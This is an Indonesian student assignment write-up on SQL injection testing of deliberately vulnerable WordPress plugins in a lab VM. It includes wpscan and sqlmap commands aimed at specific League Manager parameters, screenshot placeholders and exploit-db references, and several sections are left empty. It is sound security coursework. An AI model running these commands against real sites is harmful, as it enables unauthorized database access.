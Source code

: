 # PKSJ - Tugas 1

## Pendahuluan

**Anggota Kelompok**

| NRP         | Nama                     |
|-------------|--------------------------|
| 5113100050  | Freddy Hermawan Y        |
| 5113100109  | Daniel Fablius           |
| 5113100113  | Muhamad Luthfie La Roeha |

#### Penjelasan Tugas
**Tugas 2 :**
* Instal Wordpress pada sebuah virtual OS
* Instal plugin yang vulnerable terhadap SQL injection
* Instal/gunakan tool untuk uji SQL injection pada Wordpress
* Lakukan uji sql injection, scan vulnability dan catat hasil uji penetrasi 


## Dasar Teori


**1. OS yang digunakan**

* **Kali Linux** adalah 
Kali Linux adalah salah satu distribusi Linux tingkat lanjut untuk Penetration Testing dan audit keamanan, pembangunan kembali BackTrack Linux secara sempurna,  mengikuti sepenuhnya kepada standar pengembangan Debian.(http://id.docs.kali.org/introduction-id/apa-itu-kali-linux)

* **Ubuntu Server** adalah 
Ubuntu server adalah suatu desain ubuntu yang digunakan untuk diinstall di lingkungan enterprise atau perusahaan untuk keperluan seperti web server ataupun router, secara default versi server ini tidak menyertakan antarmuka GUI, yang ada hanya shell alias Command line,aplikasi bawaan dari ubuntu server sekedar info buat anda berupa aplikasi serveri webserver, DNS server, DHCP server, firewall, openSSH, dan applikasi yang berhubungan dengan server, teknologi yang dibenamkan diserver juga umumnya hanya dipakai oleh orang yang benar benar advanced di Linux. (https://etix.wordpress.com/2010/01/28/perbedaan-ubuntu-server-dan-desktop/)

**2. Tools yang digunakan**

*Wordpress Plugin*

* **Video Player v. 1.5.16**, 

* **League Manager 3.9.11**,

* **Booking Calendar**,

*Tools*

* **Sql Map**

* **Wpscan**

* **NTO sql Invader**

## Persiapan

#### 1. Langkah Instalasi Wordpress


#### 2. Konfigurasi Wordpress dan Install Wordpress Plugin


## Uji Sql Injection

#### 1. Uji Sql Injection dengan Wpscan

Pada tahap ini, kami melakukan sebuah skenario uji sql injection, yaitu :
1. Memindai semua vulnability yang terdapat dalam wordpress plugin yang telah di install


**Skenario 1** : Memindai semua vulnability yang terdapat dalam wordpress plugin yang telah di install

-  Menggunakan *Wpscan* untuk melakukan pindai yang terdapat vulnability dalam wordpress plugin dengan cara :
```
wpscan -u 10.151.36.5/html --enumerate vp
```
![Hasil Skenario 1](wpscan/1.PNG)
- Tunggu hingga proses Scanning selesai dilakukan. Seperti dibawah ini :

![Hasil Skenario 1](wpscan/2.PNG)

![Hasil Skenario 1](wpscan/3.PNG)

![Hasil Skenario 1](wpscan/4.PNG)

####2. Uji Sql Injection terhadap plugin wordpress leaguemanager v.3.9.11

Pada tahap ini, kami melakukan 2 skenario uji sql injection terhadap leaguemanager plugin, yaitu :
1. melakukan brute force sql injection yang terdapat dalam leaguemanager yang telah diinstall

**Skenario 1** : melakukan brute force sql injection yang terdapat dalam leaguemanager yang telah diinstall untuk dari match

-  Menggunakan *Sql Map* untuk melakukan sql injection terhadap leaguemanager untuk menggambil semua tables yang ada.
```
sqlmap -u "http://10.151.36.5/html/2016/10/12/match/?match=1" --dbms mysql --level 5 --risk 3 --tables
```
![Hasil Skenario 1](leaguemanager_3.9.11/1.PNG)

Hasil Uji dengan sqlmap dengan command seperti diatas adalah

![Hasil Skenario 1](leaguemanager_3.9.11/3.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/5b.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/5c.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/5d.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/5e.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/5f.PNG)

**Skenario 2** : melakukan brute force sql injection yang terdapat dalam leaguemanager yang telah diinstall untuk dari season

-  Menggunakan *Sql Map* untuk melakukan sql injection terhadap leaguemanager untuk menggambil semua tables yang ada.
```
sqlmap -u "http://10.151.36.5/html/2016/10/12/tik/?page_id=8&&season=1&&league_id=1&&match_day=1&&team_id=3" --dbms mysql --level 5 --risk 3 --tables
```
![Hasil Skenario 1](leaguemanager_3.9.11/6.PNG)

Hasil Uji dengan sqlmap dengan command seperti diatas adalah

![Hasil Skenario 1](leaguemanager_3.9.11/12.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/13.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/14.PNG)

![Hasil Skenario 1](leaguemanager_3.9.11/15.PNG)

Sumber referensi : https://www.exploit-db.com/exploits/37182/

####3. Uji Sql Injection terhadap plugin wordpress video player v.1.5.16

Pada tahap ini, kami melakukan sebuah skenario uji sql injection terhadap video player plugin, yaitu :
1. melakukan brute force sql injection yang terdapat dalam video player yang telah diinstall

**Skenario 1** : menggunakan NTO sql invader untuk melakukan cek parameter yang mungkin terdapat vulnerable terhadap sql injection yang terdapat dalam post method.

- Menggunakan NTO sql invader untuk melakukan pengecekan terhadap parameter yang mungkin terdapat vulnerable terhadap sql injection yang terdapat dalam post method

Hasil uji coba

![Hasil Skenario 1](video_player_1.5.16/testnto.PNG)

Sumber referensi : https://www.exploit-db.com/exploits/40137/

####4. Uji Sql Injection terhadap plugin wordpress booking calendar 

Pada tahap ini, kami melakukan sebuah skenario uji sql injection terhadap booking calendar plugin, yaitu :


## Kesimpulan dan Saran
